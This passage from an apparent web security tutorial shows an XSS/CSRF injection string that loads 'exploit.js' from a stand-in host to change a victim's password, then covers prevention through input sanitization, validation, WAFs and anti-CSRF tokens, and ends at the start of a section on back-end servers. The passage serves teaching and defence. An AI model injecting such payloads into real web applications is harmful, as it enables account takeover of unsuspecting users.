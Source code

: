 ```html
"><script src=//www,example.com/exploit.js></script>"
```

The `exploit.js` file would contain the malicious `Javascript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replace the desired functionality and automatically carry it out (i.e. `JavaScript` code that changes our password for this specific web application.)

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back-end. Two main controls must be applied when accepting user input:

| Type           | Description                                                                                                 |
| -------------- | ----------------------------------------------------------------------------------------------------------- |
| `Sanitization` | Removing special characters and non-standard characters from user input before displaying it or storing it. |
| `Validation`   | Ensuring that submitted user input matches the expected format (i.e. submitted email matched email format.) |
Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end. 

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like `HTML Injection`, `XSS`, or `CSRF`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be *bypassed*, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for `CSRF`, many modern web browsers have built-in-anti-CSRF measures, which prevent automatically executing `JavaScript` code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e. `anti-CSRF` token, or `http-only`/`X-XSS-Protection`). 

Certain other measures can be taken from a function level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should *always ensure that their code is not vulnerable to any of these attacks*. 

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.
# Back End Servers

A back-end server is the hardware and operating system on the back end that hosts all of the applications necessary to run the web application. It is the real system running all of the processes and carrying out all of the tasks that make up the entire web application. The back end server would fit in the [Data access layer](https://en.wikipedia.org/wiki/Data_access_layer).
## Software
